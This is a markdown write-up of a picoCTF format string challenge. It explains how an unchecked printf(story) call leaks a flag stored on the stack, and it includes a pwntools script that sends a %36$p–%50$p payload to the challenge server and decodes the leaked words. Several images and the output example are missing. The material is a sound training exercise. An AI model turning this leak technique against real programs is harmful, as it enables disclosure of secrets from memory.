


## 🛡️ Format String Exploit Write-up — *vuln (picoCTF)*

### 🔍 Challenge Overview

The provided binary is vulnerable to a **format string vulnerability** due to this line in the `vuln()` function:

```c
printf(story);
```

Since `story` is user-controlled and passed directly to `printf` without a format specifier, this allows an attacker to **read arbitrary values from the stack**.

Also, the `readflag()` function reads the flag from `flag.txt` into a local buffer (`char flag[64]`) on the stack. This means that the flag resides in memory at a predictable offset relative to the format string.

---

### 🔧 Vulnerability Breakdown

* Function `readflag()` stores the flag into a local stack buffer.
* `printf(story)` gives you full control over the format string, leading to a classic **format string vulnerability**.
* Stack can be traversed with `%p` to print pointer values.

---

### 🧪 Exploitation Strategy

1. **Leak stack values** starting from `%36$p`, which was found (via trial/error) to be the first word of the flag in little endian.

i have an file flag.txt in which i have written an flag for debug purpose `hello`

i fwe look it in radare2 we can see that is at :



so we have this at offset 36


2. **Collect multiple stack values** (`%36$p` through `%50$p`) to reconstruct the full flag.
3. **Convert** leaked hex values to bytes (in little-endian order).
4. **Concatenate** the bytes and decode them as ASCII to get the full flag.

---

### 🧠 Exploit Script (Python w/ pwntools)

```python
from pwn import *

context.binary = './vuln'
context.log_level = 'info'

# Toggle between local and remote
Local = False
if Local:
    p = process('./vuln')
else:
    p = remote('saturn.picoctf.net', 49646)

# Leak stack values where the flag is stored
leak_fmt = b'%36$p.%37$p.%38$p.%39$p.%40$p.%41$p.%42$p.%43$p.%44$p.%45$p.%46$p.%47$p.%48$p.%49$p.%50$p'
p.sendlineafter(b">> ", leak_fmt)

# Extract leaked hex values
p.recvuntil(b"Here's a story - \n")
leaked = p.recvline().strip().split(b'.')

# Convert to ASCII flag
flag = b''
for val in leaked:
    if val.startswith(b'0x'):
        num = int(val, 16)
        flag += num.to_bytes((num.bit_length() + 7) // 8, 'little')

# Decode result
print(f"[+] Full ASCII Flag: {flag.strip(b'\x00').decode(errors='ignore')}")
```


### ✅ Output Example



---

